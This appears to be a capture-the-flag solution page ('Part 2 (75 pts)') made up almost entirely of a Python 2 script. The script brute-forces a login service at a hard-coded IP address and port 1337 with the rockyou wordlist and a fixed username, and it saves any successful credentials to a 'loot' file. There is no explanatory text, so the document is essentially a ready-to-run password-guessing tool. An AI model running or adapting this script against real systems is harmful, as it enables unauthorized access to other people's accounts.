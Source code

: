 
### Part 2 (75 pts)
```
#!/usr/bin/python
 
import threading
import Queue
import socket

target = "142.93.136.81"
port = 1337
count = 0
lock = threading.Lock()
 
username = "v0idcache"
lootFile = "/Users/robertnash/loot.txt"  #file that you want successful password saved
passwordList = open('/Users/robertnash/rockyou.txt','r').read().splitlines()
 
class JobThread(threading.Thread) :
 
	def __init__(self, queue, tid) :
		threading.Thread.__init__(self)
		self.queue = queue
		self.tid = tid
 
	def run(self) :
		global username
		global count
		global lock

		while True :
 
			try :
				password = self.queue.get(timeout=1)
 
			except 	Queue.Empty :
				return
 
			try :
		            	
		            	tcpSocket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		            	tcpSocket.connect((target, port))
		            	tcpSocket.recv(1024)
		            	tcpSocket.send(username + "\n")
		            	tcpSocket.recv(1024)
		            	tcpSocket.send(password + "\n")
		            	if 'Fail' in tcpSocket.recv(1024):
		            	        tcpSocket.close()
		            	        count = count + 1
		            	        print "Failed " + str(count) + " " + username + "/" + password
		            	else:
		            	        lock.acquire()
		            	        print "[+] Successful Login! Username: " + username + " Password: " + password
		            	        success = open(lootFile, "a+")
		            	        success.write("[+] Successful Login! Username: " + username + " Password: " + password + "\n")
		            	        success.close()
		            	        exit(0)
		            	        lock.release()
			except :
				raise 
 
```